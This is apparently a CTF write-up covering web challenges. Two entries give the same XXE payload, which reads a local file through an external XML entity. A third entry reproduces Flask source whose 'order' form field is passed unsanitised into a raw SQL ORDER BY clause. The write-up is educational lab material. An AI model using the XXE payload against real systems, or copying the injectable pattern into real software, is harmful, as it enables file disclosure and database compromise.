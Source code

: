 ## Web Challenge: EXtravagant

### Description/Source

We are given a website to upload XML and view. Use a standard XML File Inclusion technique

### Solver

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```

## Web Challenge: Jurassic Park

### Description/Source

We are given a website to upload XML and view. Use a standard XML File Inclusion technique

### Solver

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```

## Web Challenge: Flask Metal Alchemist

Note: Writeup heavily influenced by [this](https://ctftime.org/writeup/33458)

### Description/Source

```python
from flask import Flask, render_template, request, url_for, redirect
from models import Metal
from database import db_session, init_db
from seed import seed_db
from sqlalchemy import text

app = Flask(__name__)


@app.teardown_appcontext
def shutdown_session(exception=None):
    db_session.remove()


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
```